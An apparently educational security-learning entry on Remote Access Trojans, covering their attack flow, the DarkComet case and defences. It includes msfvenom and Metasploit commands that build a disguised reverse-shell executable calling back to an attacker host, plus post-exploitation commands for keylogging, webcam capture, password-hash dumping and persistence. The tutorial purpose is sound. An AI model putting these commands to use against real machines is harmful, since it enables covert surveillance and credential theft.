

# Day 20 - RATs (Remote Access Trojans)

## What It Is
A Remote Access Trojan (RAT) is a type of malware that gives an attacker full remote control over a victim's machine through a hidden backdoor. Unlike a reverse shell (day 09) which is a basic command line connection, a RAT is a fully featured persistent implant — it survives reboots, hides itself, and provides capabilities like file management, keylogging, webcam access, screen capture, and more. The "Trojan" part means it disguises itself as legitimate software to trick the victim into running it.

## How It Works
A RAT has two components — the server (runs on the victim) and the client (runs on the attacker). The victim installs the server unknowingly, usually through a malicious email attachment, fake software download, or bundled with a cracked application. Once running it connects back to the attacker's client just like a reverse shell, but with a full GUI control panel.



Attack flow:
1. Attacker builds a RAT payload disguised as legitimate software
2. Delivers it via phishing email, fake download, USB drop, or social engineering
3. Victim runs it — RAT server installs silently, adds persistence to startup
4. RAT connects back to attacker's C2 (Command and Control) server
5. Attacker gets full control panel — files, processes, webcam, keylogger, shell

```bash
# example using msfvenom to generate a RAT payload (Metasploit)
msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -f exe -o setup.exe

# set up the handler on attacker side
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST attacker_ip
set LPORT 4444
run

# once victim runs setup.exe, attacker gets meterpreter session
# full control - screenshot, webcam, keylog, file browse, shell
screenshot
webcam_snap
keyscan_start
download passwords.txt
```
## Real-World Example
DarkComet was one of the most widely used RATs in the early 2010s. During the Syrian Civil War, government-linked attackers used DarkComet disguised as a video of protests to target Syrian activists. When activists ran the file they handed full control of their machines to the attackers — webcam, microphone, files, and keystrokes — putting their lives at risk. The RAT's creator eventually shut down development after seeing it used for human rights abuses.

On the cybercrime side, RATs like njRAT and AsyncRAT are still widely distributed through phishing campaigns today, used for credential theft, banking fraud, and ransomware deployment.

## Why It Matters
From an attacker's side, a RAT is the endgame of initial access — it turns a one-time exploit into persistent long-term control. A RAT sitting on a corporate machine for months can exfiltrate intellectual property, capture executive communications, and serve as a launchpad for deeper network penetration.

From a defender's side, RATs communicate with C2 servers over common ports like 80 and 443 to blend in with normal traffic. Network monitoring for unusual outbound connections, EDR tools that detect suspicious process behavior, and user awareness training to avoid running unknown executables are the main defenses. Application whitelisting ensures only approved software can execute.

## Key Terms
- RAT (Remote Access Trojan): malware that provides full hidden remote control of a victim's machine through a backdoor
- C2 (Command and Control): the server the attacker uses to send commands to and receive data from infected machines
- Persistence: the ability of malware to survive reboots by adding itself to startup processes or registry keys
- Meterpreter: an advanced RAT-like payload in Metasploit that runs entirely in memory, leaving no files on disk
- Payload: the malicious code delivered to the victim that establishes the RAT connection

## One Tip / Tool

Tool: `Metasploit Meterpreter` for learning RAT concepts in a lab environment

```bash
# generate payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe > rat.exe

# common meterpreter commands after getting a session
sysinfo          # system information
getuid           # current user
screenshot       # take a screenshot
webcam_snap      # capture webcam photo
keyscan_start    # start keylogger
keyscan_dump     # dump captured keystrokes
hashdump         # dump password hashes
run persistence  # add persistence across reboots
```

Practice RAT concepts safely on **TryHackMe** rooms like "Metasploit" and "RAT" or on your own local virtual machine lab. Never deploy RATs on systems you don't own — it's illegal in every jurisdiction.
